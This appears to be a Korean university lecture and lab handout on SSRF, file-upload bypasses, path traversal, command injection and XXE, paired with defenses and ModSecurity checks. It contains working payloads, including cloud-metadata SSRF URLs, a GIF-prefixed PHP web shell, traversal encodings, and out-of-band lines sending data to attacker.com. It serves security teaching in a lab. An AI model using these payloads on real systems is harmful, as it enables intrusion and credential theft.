

# Week 07 — OWASP A10 / A05 / A03 — SSRF / 파일 업로드 / Path Traversal

> 본 주차는 OWASP Top 10 의 3 카테고리 — **A10 SSRF**, **A05 Security
> Misconfiguration** (특히 파일 업로드), **A03 Injection** (Path Traversal / RCE /
> XXE) 을 다룬다. 모두 서버 측 자원에 직접 영향 — 가장 위험한 유형. Capital One,
> SSRF 사고 + ImageMagick CVE 등 모던 대형 사고의 root cause.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **SSRF 의 정의** + 3 타입 (Basic / Blind / Semi-blind) + 클라우드 metadata 공격
2. **DNS Rebinding** 의 원리 + SSRF 우회
3. **파일 업로드 vuln 4 우회** (확장자 / Content-Type / Magic Bytes / Race condition)
4. **Path Traversal 다중 변형** (URL encoding / null byte / overlong UTF-8)
5. **RCE / Command Injection** + **XXE (XML External Entity)**
6. **ffuf parameter fuzz** + Burp Intruder 의 fuzzing 패턴
7. **방어 표준** (URL whitelist / MIME 검증 / sandbox / parameterized)
8. W07 R/B/P 1 사이클

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                  | 유형 |
|-----------|-----------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — SSRF 정의 + 3 타입 + Capital One 사고                          | 강의 |
| 0:30–1:00 | 이론 — 파일 업로드 4 우회 + RCE / XXE                                 | 강의 |
| 1:00–1:10 | 휴식                                                                   | —    |
| 1:10–1:40 | 이론 — Path Traversal 변형 + DNS Rebinding                            | 강의 |
| 1:40–2:00 | 이론 — 방어 표준 (URL whitelist / MIME / sandbox)                     | 강의 |
| 2:00–2:30 | 실습 1, 2 — Path Traversal 다중 변형 + SSRF                          | 실습 |
| 2:30–2:40 | 휴식                                                                   | —    |
| 2:40–3:10 | 실습 3, 4 — 파일 업로드 + XXE                                         | 실습 |
| 3:10–3:30 | 실습 5 — ffuf parameter fuzz + R/B/P                                  | 실습 |
| 3:30–3:40 | 정리 + W08 (중간고사) 예고                                            | 정리 |

---

## 1. SSRF (Server-Side Request Forgery)

### 1.1 정의

```
SSRF = 공격자가 server 가 임의의 URL 에 HTTP 요청하도록 만드는 취약점
CWE-918: Server-Side Request Forgery
```

**왜 위험?**:
- 서버는 일반적으로 더 많은 권한 (private network 접근 가능)
- 방화벽이 외부 → 내부는 차단하지만 서버 → 내부는 허용
- 클라우드 metadata 접근 → credential 탈취

### 1.2 SSRF 의 3 시나리오

#### 1.2.1 내부 자원 접근

```
정상:  POST /api/fetch  body={url: "https://external-api.com/data"}
       서버가 external-api 호출 → 결과 반환

공격:  POST /api/fetch  body={url: "http://localhost/admin"}
       서버가 자기 localhost 호출 → 내부 admin 페이지 노출

       또는: body={url: "http://10.0.0.5:6379"}
       → 내부 Redis 접근 (인증 없는 경우)
```

#### 1.2.2 클라우드 metadata 공격 (가장 빈번)

```
AWS:    body={url: "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
        → IAM credentials 노출
GCP:    body={url: "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"}
        → service account token
Azure:  body={url: "http://169.254.169.254/metadata/identity/oauth2/token?..."}
        → managed identity token
```

**Capital One 2019 사고**: SSRF → EC2 IAM credential 탈취 → S3 1 억 user 정보 유출.
$300M 손실.

#### 1.2.3 file:// scheme

```
body={url: "file:///etc/passwd"}
→ server 의 /etc/passwd 내용 응답
```

### 1.3 3 SSRF 타입

| 타입 | 응답 | 감지 방법 |
|------|------|-----------|
| **Basic** | 응답 body 에 결과 노출 | 직접 데이터 추출 |
| **Blind** | 응답 없음 | DNS / HTTP callback (out-of-band) |
| **Semi-blind** | 응답 시간 / status code 차이 | timing / response inference |

### 1.4 SSRF 변형 (우회 패턴)

#### URL 변형

```
http://localhost          → http://127.0.0.1
                          → http://127.1
                          → http://0x7f000001    (hex)
                          → http://2130706433     (decimal)
                          → http://[::1]          (IPv6)
                          → http://[0:0:0:0:0:ffff:7f00:1]
```

#### URL encoding

```
http://localhost/admin    → http%3A%2F%2Flocalhost%2Fadmin
                          → http%3A%2F%2Flocal%E5%9F%8Ehost   (UTF-8 special)
```

#### Open redirect 우회

```
target.com 이 url= 검증 — 'target.com' 으로 시작해야 함
공격: body={url: "https://target.com.evil.com/"}   ← regex 우회
공격: body={url: "https://attacker@target.com/"}   ← URL parsing 약점
공격: body={url: "https://target.com#@evil.com/"}  ← fragment 우회
```

#### DNS Rebinding

```
1. attacker.com 의 DNS A record = 1.2.3.4 (TTL 1초)
2. 서버가 attacker.com → 1.2.3.4 resolve → check 통과
3. 1초 후 attacker 가 DNS 변경 → 169.254.169.254 (AWS metadata)
4. 서버가 다음 요청 시 169.254.169.254 로 conn
```

**방어**: DNS resolve 결과 cache + IP whitelist.

---

## 2. 파일 업로드 vuln

### 2.1 정의

```
Unrestricted File Upload = 사용자가 임의의 파일을 server 에 upload 가능
                            (실행 가능 파일 → RCE)
CWE-434
```

### 2.2 4 우회 패턴

#### 2.2.1 확장자 blacklist 우회

```
차단: .php / .php5 / .phtml / .phar
우회:
  - shell.PhP                  (case mixing)
  - shell.php.jpg              (double extension)
  - shell.php%00.jpg           (null byte — legacy PHP)
  - shell.php5                 (대안 확장자)
  - shell.phtml / .phar
  - shell.php.x.x.x.jpg        (Apache 의 MultiViews)
```

**Apache 의 MultiViews**:
```
Options MultiViews
→ shell.php.gif 요청 시 Apache 가 shell.php 도 실행 시도
```

#### 2.2.2 Content-Type 우회

```
정상: Content-Type: image/jpeg
공격:
  - request 의 Content-Type 만 image/jpeg, 내용은 PHP
  - server 가 Content-Type 만 검증 → 통과
```

#### 2.2.3 Magic Bytes 우회

```
파일 시작에 magic bytes 추가:
  GIF89a<?php system($_GET['c']); ?>

서버가 magic bytes 만 검증 → "유효한 GIF" 판정 → 저장
PHP interpreter 가 처음 GIF89a 무시 + <?php ... ?> 실행 → RCE
```

#### 2.2.4 Race Condition (TOCTOU)

```
1. 공격자가 shell.php 업로드
2. server 가 검증 시작 (시간 X)
3. 검증 도중에 attacker 가 shell.php 호출 (실행됨)
4. 검증 끝 → 파일 삭제

검증과 호출의 race 시간 window 가 1ms 라도 공격 가능
```

**방어**: 임시 디렉토리 → 검증 → atomic move.

### 2.3 ImageMagick CVE (2016 ImageTragick)

```
ImageMagick 이 이미지의 메타데이터 안의 명령 실행 (mvg/svg/ephemeral 등)
→ 이미지 업로드만으로 RCE
```

본 lab 의 admin.6v6.lab 의도 vuln 중 하나.

### 2.4 방어 표준

- **확장자 whitelist** (blacklist 아님)
- **Content-Type + Magic bytes 둘 다 검증**
- **이미지의 재인코딩** (PHP 코드 제거)
- **별 도메인의 static file** (실행 가능 디렉토리 분리)
- **파일 이름 random rename** (predictable URL 방지)

---

## 3. Path Traversal

### 3.1 정의

```
Path Traversal = 사용자 입력의 file path 를 통해 디렉토리 escape
CWE-22: Improper Limitation of a Pathname to a Restricted Directory
```

### 3.2 변형

```
기본:           ?file=../../../etc/passwd
URL encode:     ?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
Double encode:  ?file=%252e%252e%252f%252e%252e%252fetc%252fpasswd
Null byte:      ?file=../etc/passwd%00.jpg        (legacy PHP)
UTF-8 overlong: ?file=..%c0%afetc%c0%afpasswd
4-byte UTF-8:   ?file=..%c0%80%2fetc%c0%80%2fpasswd
Windows:        ?file=..\..\..\windows\system.ini
                ?file=..%5c..%5cwindows%5csystem.ini
Mixed:          ?file=....//....//....//etc/passwd  (.. 가 한 번씩 처리)
Absolute path:  ?file=/etc/passwd
```

### 3.3 방어

```python
# 1. 정규화 후 base path 비교
import os
base = '/var/www/uploads'
user_input = request.args.get('file')
full = os.path.realpath(os.path.join(base, user_input))
if not full.startswith(base):
    abort(403)

# 2. whitelist 확장자
ALLOWED = {'.jpg', '.png', '.pdf'}
if not any(user_input.endswith(ext) for ext in ALLOWED):
    abort(403)

# 3. random ID 사용
GET /files/abc123  # server 가 매핑
```

---

## 4. RCE (Remote Code Execution) / Command Injection

### 4.1 정의

```
Command Injection = 사용자 입력이 shell 명령의 일부로 실행
CWE-78: Improper Neutralization of Special Elements used in an OS Command
```

### 4.2 페이로드

```bash
# 정상
ping 8.8.8.8

# 공격 (사용자 입력에 ; cat /etc/passwd 추가)
ping 8.8.8.8; cat /etc/passwd

# 변형
ping 8.8.8.8 && cat /etc/passwd
ping 8.8.8.8 || cat /etc/passwd
ping 8.8.8.8 | cat /etc/passwd
ping 8.8.8.8 `cat /etc/passwd`
ping 8.8.8.8 $(cat /etc/passwd)

# Blind (응답 없음 — out-of-band)
ping 8.8.8.8; curl http://attacker.com/$(whoami)
```

### 4.3 방어

```python
# 안전: subprocess 의 args list (shell=False)
import subprocess
subprocess.run(['ping', '-c', '4', user_input], shell=False)

# 위험: shell=True + string
subprocess.run(f'ping -c 4 {user_input}', shell=True)  # injection 가능
```

---

## 5. XXE (XML External Entity)

### 5.1 정의

```
XXE = XML 파서의 외부 엔티티 처리 약점 이용 → 파일 노출 / SSRF / DoS
CWE-611
```

### 5.2 페이로드

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

XML 파서가 `&xxe;` 처리 시 `/etc/passwd` 내용을 substitute.

### 5.3 변형

```xml
<!-- SSRF via XXE -->
<!ENTITY xxe SYSTEM "http://internal-server/admin">

<!-- Out-of-band XXE -->
<!ENTITY % xxe SYSTEM "http://attacker.com/$(cat /etc/passwd)">

<!-- Billion laughs DoS -->
<!ENTITY a "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
<!ENTITY b "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
...
```

### 5.4 방어

```python
# Python lxml — XXE 차단
from lxml import etree
parser = etree.XMLParser(resolve_entities=False)
tree = etree.parse(file, parser)

# defusedxml 라이브러리 사용 권장
```

---

## 6. ATT&CK 매핑

| Technique | 내용 |
|-----------|------|
| T1190 | Exploit Public-Facing Application |
| T1505.003 | Web Shell (파일 업로드 RCE) |
| T1083 | File and Directory Discovery (Path Traversal) |
| T1059.004 | Command and Scripting Interpreter - Unix Shell |
| T1136 | Create Account (RCE 후) |

---

## 7. R/B/P 시나리오 — Path Traversal + SSRF + 파일 업로드



---

## 8. 실습 1~5

### 실습 1 — Path Traversal 10 변형 매트릭스

```bash
ssh 6v6-attacker '
echo "=== Path Traversal 10 변형 ==="
for p in \
    "../../../etc/passwd" \
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd" \
    "%252e%252e%252f%252e%252e%252fetc%252fpasswd" \
    "../etc/passwd%00.jpg" \
    "....//....//....//etc/passwd" \
    "..%c0%afetc%c0%afpasswd" \
    "..%5c..%5cetc%5cpasswd" \
    "/etc/passwd" \
    "....\\....\\etc\\passwd" \
    "..%252fetc%252fpasswd"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/?file=$p")
    echo "$code | $p"
done
'
```

### 실습 2 — SSRF + cloud metadata 시뮬

```bash
ssh 6v6-attacker '
echo "=== SSRF 시도 ==="
# 본 lab 환경의 SSRF 가능 endpoint (admin.6v6.lab 등)
for url in \
    "http://localhost/admin" \
    "http://127.0.0.1:6379/" \
    "http://169.254.169.254/latest/meta-data/" \
    "file:///etc/passwd" \
    "http://[::1]/admin" \
    "http://2130706433/"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: admin.6v6.lab" \
        "http://10.20.30.1/api/fetch?url=$url")
    echo "$code | $url"
done
'
```

### 실습 3 — 파일 업로드 vuln 시뮬

```bash
ssh 6v6-attacker '
# magic bytes 추가한 가짜 PHP shell
echo "GIF89a<?php system(\$_GET[\"c\"]); ?>" > /tmp/shell.php.gif

# 업로드 시도
echo "=== 파일 업로드 시도 (Content-Type: image/gif) ==="
curl -s -o /dev/null -w "%{http_code}\n" \
    -X POST \
    -H "Host: admin.6v6.lab" \
    -F "file=@/tmp/shell.php.gif;type=image/gif" \
    http://10.20.30.1/upload

# 확장자 우회 시도
echo "=== 확장자 4 변형 ==="
for ext in "php" "phtml" "phar" "php5"; do
    cp /tmp/shell.php.gif /tmp/shell.$ext
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -X POST \
        -H "Host: admin.6v6.lab" \
        -F "file=@/tmp/shell.$ext" \
        http://10.20.30.1/upload)
    echo "$code | shell.$ext"
done
'
```

### 실습 4 — XXE 시도

```bash
ssh 6v6-attacker '
echo "=== XXE — file:// SSRF ==="
curl -s -X POST \
    -H "Host: admin.6v6.lab" \
    -H "Content-Type: application/xml" \
    -d "<?xml version=\"1.0\"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM \"file:///etc/passwd\">
]>
<foo>&xxe;</foo>" \
    http://10.20.30.1/api/parse 2>&1 | head -20

echo ""
echo "=== XXE — Billion laughs DoS (적게 시뮬) ==="
curl -s -X POST \
    -H "Host: admin.6v6.lab" \
    -H "Content-Type: application/xml" \
    -d "<?xml version=\"1.0\"?>
<!DOCTYPE bomb [
  <!ENTITY a \"AAAAAAAAAA\">
  <!ENTITY b \"&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;\">
]>
<foo>&b;</foo>" \
    -o /dev/null -w "%{http_code}\n" \
    http://10.20.30.1/api/parse
'
```

### 실습 5 — ffuf parameter fuzz + R/B/P

```bash
ssh 6v6-attacker '
# 의심 parameter 찾기
cat > /tmp/params.txt <<EOF
id
file
path
url
include
admin
debug
exec
cmd
test
EOF

echo "=== ffuf parameter fuzz ==="
timeout 30 ffuf \
    -u "http://10.20.30.1/?FUZZ=test" \
    -H "Host: juice.6v6.lab" \
    -w /tmp/params.txt \
    -fc 404,403 \
    2>&1 | tail -15
'
```

**Blue 측 확인**:

```bash
ssh 6v6-web '
echo "=== ModSec 930 (LFI) + 932 (RCE) + 921 (XXE) 매치 ==="
sudo tail -10 /var/log/apache2/modsec_audit.log | head -3 | \
    jq ".transaction.messages[] | select(.id | startswith(\"930\") or startswith(\"932\") or startswith(\"921\")) | {id, msg}" 2>/dev/null
'
```

---

## 9. 방어 표준 정리

| 공격 | 방어 |
|------|------|
| SSRF | URL whitelist + DNS resolve 후 IP 검증 + cloud metadata 차단 |
| 파일 업로드 | 확장자 whitelist + Magic bytes + 재인코딩 + 분리 도메인 |
| Path Traversal | os.path.realpath 후 base prefix 검증 |
| RCE | shell=False + args list |
| XXE | resolve_entities=False + defusedxml |

---

## 10. 한국 사례 + 표준 매핑

- **Capital One 2019** (SSRF → EC2 metadata) : 본 주차의 가장 유명 사례
- **ImageTragick 2016** : 파일 업로드 RCE
- **2014 한국 ATM 해킹** : Path Traversal → 시스템 침투
- ISMS-P 2.10.7 / OWASP A03 / A05 / A10

---

## 11. 과제

A. **3 카테고리 페이로드** (필수, 40점) — SSRF / 파일업로드 / Path 각 3 변형 + 응답
B. **ModSec 차단 분석** (심화, 30점) — 930/932/921 룰 매치 표
C. **방어 권장** (정성, 30점) — 운영자 시점 5 권장

---

## 12. 핵심 정리 (10 줄)

1. **SSRF** + **파일 업로드** + **Path Traversal** = 모던 web 의 최고 위험 vuln
2. **SSRF 변형** — URL encoding / DNS rebinding / open redirect / cloud metadata
3. **Capital One $300M 사고** = SSRF + EC2 metadata
4. **파일 업로드 4 우회** — 확장자 / Content-Type / Magic bytes / Race condition
5. **Path Traversal 변형 10+** — URL encoding / null byte / overlong UTF-8
6. **RCE / XXE** = 가장 즉시 위험 (전체 시스템 침투)
7. **ModSec 930 (LFI) + 932 (RCE) + 921 (XXE)** = 1차 방어선
8. **방어 5** — whitelist / Magic bytes / realpath / shell=False / defusedxml
9. **W07 R/B/P** — 5 Red 시도 → ModSec 3 카테고리 + osquery/sysmon → 3 권장
10. **W08 중간고사** 다음 주차 — CTF 형식 3 challenge
